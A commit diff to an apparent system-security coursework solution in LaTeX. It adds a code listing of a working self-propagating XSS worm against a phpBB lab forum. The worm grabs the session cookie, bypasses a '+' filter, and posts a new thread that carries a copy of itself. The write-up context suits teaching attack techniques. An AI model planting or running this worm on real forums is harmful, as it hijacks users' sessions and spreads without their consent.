

Before and after one commit to Ymbirtt/syssec2, a LaTeX document (main.tex, which reads solution.tex): part of page 5 of 7 before the commit and two parts of pages 5 and 6 of 8 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
Provisional source code listing entry for the fabulous sunshine and rainbows worm.

```diff
--- a/solution.tex
+++ b/solution.tex
@@ -199,6 +199,46 @@ that spoofed packets are no longer necessary. This can cause an innocent forum u
 immediately create a new thread, without their knowledge. The specific malicious code is as follows:
 
 %POOT CODE HERE
+\begin{lstlisting}[caption=The Sunshine And Rainbows Worm]
+//Place a giant image in the post, so we're not just posting nothing
+<img src=http://i.imgur.com/B4kPQ.jpg>
+
+//Define the worm
+<script id=sunshineAndRainbows>
+    //Grab all the user's cookies
+    var cookies=document.cookie.split(';');
+    var sid_cookie=null;
+    //Search through the array of cookies for the one that contains "phpbb2mysql_sid"
+    //Note that we need to use i=i-(-1) here since + symbols aren't allowed
+    for(i=0;i<cookies.length;i=i-(-1)){
+        //When we find it, slice of the start. The rest of the string will be
+        //the cookie we need
+        if(cookies[i].match("phpbb2mysql_sid")) sid_cookie=cookies[i].slice(13)
+    };
+    //Grab the payload from the current web page
+    var payload=document.getElementById("sunshineAndRainbows").innerHTML;
+    var Ajax=null;
+
+    //Build the HTTP Request to match the contents of a genuine posting request
+    Ajax=new XMLHttpRequest();
+    Ajax.open("POST","http://www.xsslabphpbb.com/posting.php",true);
+    Ajax.setRequestHeader("Host","www.xsslabphpbb.com");
+    Ajax.setRequestHeader("Keep-Alive","300");
+    Ajax.setRequestHeader("Connection","keep-alive");
+    Ajax.setRequestHeader("Cookie",document.cookie);
+    Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
+
+    //Set the content to be a request to create a new thread
+    var content="".concat(
+        "subject=XSSWorm",//The subject of the new thread
+        "&message=%3Cimg src=http://i.imgur.com/B4kPQ.jpg%3E",//The aforementioned giant image
+        "%3Cscript id=sunshineAndRainbows%3E",escape(payload),"%3C%2Fscript%3E",//The self-replicating part of the virus
+        "&mode=newtopic&f=1&",sid_cookie,"&post=Submit"); //Submit this as a request for a new thread in subforum 1
+
+    //And here we go...
+    Ajax.send(content);
+</script>
+\end{lstlisting}
 
 This code will steal the user's cookie, and submit a request to the server to create a new thread containing exactly the
 worm itself -- working under the assumption that no other element on the page bears the id ``sunshineAndRainbows". This
```
Also changed, not shown: main.tex (+37 -1 lines).
